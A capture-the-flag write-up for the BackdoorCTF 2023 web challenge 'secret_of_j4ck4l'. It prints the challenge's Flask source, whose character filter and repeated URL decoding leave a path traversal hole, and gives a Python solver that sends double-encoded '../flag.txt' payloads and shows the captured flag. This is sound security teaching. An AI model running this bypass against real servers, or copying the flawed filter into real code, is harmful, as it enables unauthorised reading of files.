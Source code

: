 ```yaml
---
title: 2023 BackdoorCTF - secret_of_j4ck4l
author: thanguyen165
date: 2023-12-18 00:00:00 +0700
categories: [Write-ups, 2023_BackdoorCTF]
tags: [Web Exploitation, write-ups]
---
```


* 326 solves / 237 points
* Author: j4ck4l

## Description

> I left a message for you. You will love it definitely
> [http://34.132.132.69:8003/](http://34.132.132.69:8003/)

## Attached

[secret_of_j4ck4l.zip](attached/secret_of_j4ck4l.zip)


```py
from flask import Flask, request, render_template_string, redirect
import os
import urllib.parse

app = Flask(__name__)

base_directory = "message/"
default_file = "message.txt"

def ignore_it(file_param):
    yoooo = file_param.replace('.', '').replace('/', '')
    if yoooo != file_param:
        return "Illegal characters detected in file parameter!"
    return yoooo

def another_useless_function(file_param):
    return urllib.parse.unquote(file_param)

def url_encode_path(file_param):
    return urllib.parse.quote(file_param, safe='')

def useless (file_param):
    file_param1 = ignore_it(file_param)
    file_param2 = another_useless_function(file_param1)
    file_param3 = ignore_it(file_param2)
    file_param4 = another_useless_function(file_param3)
    file_param5 = another_useless_function(file_param4)
    return file_param5


@app.route('/')
def index():
    return redirect('/read_secret_message?file=message')

@app.route('/read_secret_message')
def read_file(file_param=None):
    file_param = request.args.get('file')
    file_param = useless(file_param)
    print(file_param)
    file_path = os.path.join(base_directory, file_param)

    try:
        with open(file_path, 'r') as file:
            content = file.read()
        return content
    except FileNotFoundError:
        return 'File not found! or maybe illegal characters detected'
    except Exception as e:
        return f'Error: {e}'


if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=4053)

```
{: file="app.py" }

## Analyzation

Make a path traversal and we got the flag. ```http://34.132.132.69:8003/read_secret_message?file={payload}```

But the payload has to pass the filter

```py
def ignore_it(file_param):
    yoooo = file_param.replace('.', '').replace('/', '')
    if yoooo != file_param:
        return "Illegal characters detected in file parameter!"
    return yoooo

def another_useless_function(file_param):
    return urllib.parse.unquote(file_param)

def url_encode_path(file_param):
    return urllib.parse.quote(file_param, safe='')

def useless (file_param):
    file_param1 = ignore_it(file_param)
    file_param2 = another_useless_function(file_param1)
    file_param3 = ignore_it(file_param2)
    file_param4 = another_useless_function(file_param3)
    file_param5 = another_useless_function(file_param4)
    return file_param5
```

- ```ignore_it(file_param)``` detects dot and slash. But it can be passed by encoding to ```%2e``` and ```%2f```.

- ```another_useless_function(file_param)``` unquote the url. But double encoding works fine: ```%2e``` to ```%252e```.

## Solution

```py
import requests

URL = "http://34.132.132.69:8003/read_secret_message?file={}"

query = "%2e%2e%2fflag%2etxt"
for i in range(3):
    for j in range(i):
        query = query.replace("%", "%25")
        response = requests.get(URL.format(query))
        print(response.text)
```

The flag is
```
flag{s1mp13_l0c4l_f1l3_1nclus10n_0dg4af52gav}
```